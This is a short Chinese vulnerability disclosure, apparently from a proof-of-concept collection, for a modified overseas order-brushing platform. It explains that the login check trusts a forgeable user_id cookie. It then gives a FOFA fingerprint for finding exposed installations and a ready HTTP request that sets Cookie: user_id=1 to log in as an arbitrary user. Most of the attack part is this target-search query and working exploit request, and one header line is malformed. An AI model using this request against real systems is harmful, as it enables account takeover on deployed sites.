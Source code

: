 # 某二开版海外抢单Shua单系统存在任意用户登录漏洞

**位于 /index/controller/Base.php 控制器的 __construct 方法作为验证登录控制器，来验证用户是否登录，然而这套系统实际采用两套验证用户的方法，Session和Cookie并存，其中 if (!$uid) { $uid = cookie('user_id'); } 这句话是关键，如果Session中没有发现user_id，那么直接验证Cookie中的user_id，而Cookie是可以伪造的，这里导致漏洞产生。**

## fofa

```javascript
"/red/popper.min.js"
```

## poc

```javascript
GET /index/index HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9,ru;q=0.8,en;q=0.7
Connection: keep-alive
Content-Length: 73
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: user_id=1
Host: 127.0.0.1:81
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
User-Token-Csrf: csrf66e28d7ebbffaX-Requested-With: 
```

![9eba17aa45f2b298e11a600cd389774d](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202409131335933.jpg)



## 漏洞来源

- https://mp.weixin.qq.com/s/wArXDFITAjeTG0IRA0B5rg
